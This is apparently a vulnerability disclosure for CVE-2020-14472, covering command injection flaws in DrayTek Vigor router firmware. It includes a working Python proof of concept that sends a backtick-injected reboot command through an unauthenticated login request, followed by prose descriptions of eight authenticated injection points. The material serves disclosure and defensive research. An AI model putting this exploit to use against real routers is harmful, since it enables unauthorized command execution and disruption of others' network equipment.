 # CVE-2020-14472 CMDi

- Products: DrayTek Vigor2960/3900/300B
- Firmware: < version 1.5.1.1

This CVE contains 1 CMDi without authorization and 8 CMDi with authorization.

****

## An unauthorized **Command Injection** @ mainfunction.cgi

We found an unauthorized CMDi @ mainfunction.cgi with the precondition that the router can be authorized by SMS. The vulnerability will be triggered by `frompassword` value containig injected commands such as "123456\`reboot\`".

If the router supports login by SMS and the user's phone number or the content of `/var/sms_phone_auth` is known by the attacker, then the attacker will be able to inject arbitary command by an evil payload such as the injection of `reboot` as the payload below.

```python=
from sys import argv
from base64 import b64encode
import requests

data = {
    "URL": "192.168.1.1",
    "HOST": "http://192.168.1.1",
    "action": "authuser",
    "formusername": b64encode(b"test").decode(),
    "formpassword": b64encode(b"12345678`reboot`").decode(),
    "PHONENUMBER": argv[1] # the known phone number
}
header = {
    "Content-Type": "application/raw"
}
url = {
    "root": "http://192.168.1.1",
    "cgi": {
        "root": "/cgi-bin",
        "uri": {
            "mf": "/mainfunction.cgi",
        }
    }
}

def build_url(p1, p2=None):
    if p2:
        return url["root"] + url[p1]["root"] + url[p1]["uri"][p2]
    else:
        return url["root"] + url[p1]

session = requests.session()
session.post(build_url("cgi", "mf"), data=data, headers=header)
```

****

## Eight authorized CMDi

[These issues are from there. Swing TQL!](https://gist.github.com/WinMin/46165779215f1d47ec257210428c0240)

There are some command injection vulnerabilities in the mainfunction.cgi file. The details are as follows:

**1. in downlaod_ovpn function**  

![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618181430.png)  
The parameters from http_input are written directly to the buf of s without filtering, followed by system, which can causecommand injection

**2. in doOpenVpn function**  

![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618181622.png)  
The value of "option" is from "http_input" and later concatenated and used by "system" without any special characters sanitizing, causing command injection

**3. int dumpSyslog_func**  

![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618182201.png)  
The value of "option" is from "http_input", and single quote character allowed. So, since it is user-controllable, when user input closes the single quote, a command injection is done.

**4. in get_subconfig_func**  

![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618182534.png)  
"rtick" is from "http_input", and further passed to "sub_F2D8". In "sub_F2D8", "rtick" is concatenated to "/tmp/ipv6_neigh_", then passed to "system", causing command injection.  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618182631.png)

**5. in set_ap_map_config_func**  
The value of "option" is from "http_input",and will be spliced with "/sbin/ipsec_new_cer" , may cause command execution  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618183008.png)

**6. in delete_wlan_profile_func**  

The value of "profile_number " is from "http_input" and will be spliced with "uci delete apm_wlan_profile.profile"， may cause command execution  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618183605.png)

**7. in ruequest_certificate_func**  

The value of "option" will be spliced with "/sbin/ipsec_new_cer" , may cause command execution  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618183646.png)

**8. in doGRETunnel_func**  

The table value will be spliced with "/etc/init.d/gretunnel disconnect_from_web '%s' 1>/dev/null 2>&1" ， may cause command execution  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618183338.png)

****

## Founder
- [C0ss4ck](https://github.com/Cossack9989) @ NJUPT (email: c0ss4ck9989@gmail.com)
- [Swings](https://github.com/WinMin) @ Chaitin (email: weiming.shi@chaitin.com)
- [MozhuCY](https://github.com/MozhuCY) @ NJUPT (email: mozhucy@gmail.com)